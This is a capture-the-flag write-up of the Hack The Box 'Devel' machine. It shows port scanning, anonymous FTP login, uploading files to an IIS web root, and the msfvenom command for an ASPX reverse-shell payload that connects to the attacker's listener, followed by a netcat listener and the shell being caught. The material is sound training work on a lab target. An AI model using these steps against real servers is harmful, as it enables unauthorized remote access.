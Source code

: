 <H1 style="text-align: center;">Hack The Box </H1>
<H2 style="text-align: center;">Devel write up </H2>
<H2 style="text-align: center;">By Michael ThugBounty Keck </H2>
<p style="text-align: center"><img src="https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/Devel.png"></p>

Recon:
Started the test out by running Rustscan to get the open ports. 
Command: rustscan -a 10.10.10.5
<p style="text-align: center"><img src="https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/Devel.png"></p>
|Status|IP|Port|
| -----|--|----------- |
| Open | 10.10.10.5 | 21 |
| Open | 10.10.10.5 | 80 |

PORT 21: 
Checked to see if FTP would allow for anonymous login
Command: ftp 10.10.10.5
Found that anonymous login was allowed 
I used the following creds anonymous:anonymous
<p style="text-align: center"><img src="https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/Devel.png"></p>

PORT 80:
In FireFox I navigated to the page using the IP
I found the standard IIS7 page. 

USER SHELL:
Started by testing FTP and adding a test text file.
Command echo 'testing' > test.txt 
<p style="text-align: center"><img src="https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/Devel%20(5).jpg"></p>
while connected to the host via FTP I uploaded the file. 
Command: put test.txt. -> upload successful 
I checked the web browser by going to 10.10.10.5/test.txt and found the file was showing in the browser. 

Once I knew that it was working I crafted a reverse shell using MSFvenom
Command: msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.2 LPORT=4444 -f aspx > reverse.aspx
<p style="text-align: center"><img src="https://github.com/mkeck3672/Hack_The_Box_Write_Ups/blob/main/images/Devel%20(9).jpg"></p>
Again used the put command 
Command put reverse.aspx

I started a netcat listener in a new console tab making sure I use the same port as my payload. 
Command nc -nlvp 4444

Went back to FireFox and changed /test.txt to /reverse.aspx and I was able to get a shell back. 